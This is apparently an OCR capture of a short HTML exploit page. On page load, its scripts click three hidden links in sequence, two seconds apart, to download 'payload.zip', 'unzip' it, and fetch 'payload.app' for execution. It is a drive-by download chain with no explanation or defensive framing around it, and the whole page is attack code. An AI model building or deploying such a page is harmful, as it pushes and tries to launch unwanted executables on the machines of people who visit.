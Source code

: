 <!DOCTYPE html>
<html>
<body>

<a href="http://127.0.0.1/payload.zip" id=download download>
  <img src="/images/exploit.jpg" alt="download" width="104" height="142">
</a>

<a href="payload.zip" id=unzip download>
  <img src="/images/exploit.jpg" alt="unzip" width="104" height="142">
</a>

<a href="payload.app" id=execute download>
  <img src="/images/exploit.jpg" alt="execute" width="104" height="142">
</a>


<script>
function sleep(delay)
{
	var start = new Date().getTime();
	while (new Date().getTime() < start + delay);
}
</script>

<script>
(function download() {
    document.getElementById('download').click();
})()
</script>
<script>
(function download() {
	 sleep(2000) // 2 second delay
    document.getElementById('unzip').click();
})()
</script>
<script>
(function download() {
	 sleep(2000) // 2 second delay
    document.getElementById('execute').click();
})()
</script>

</body>
</html>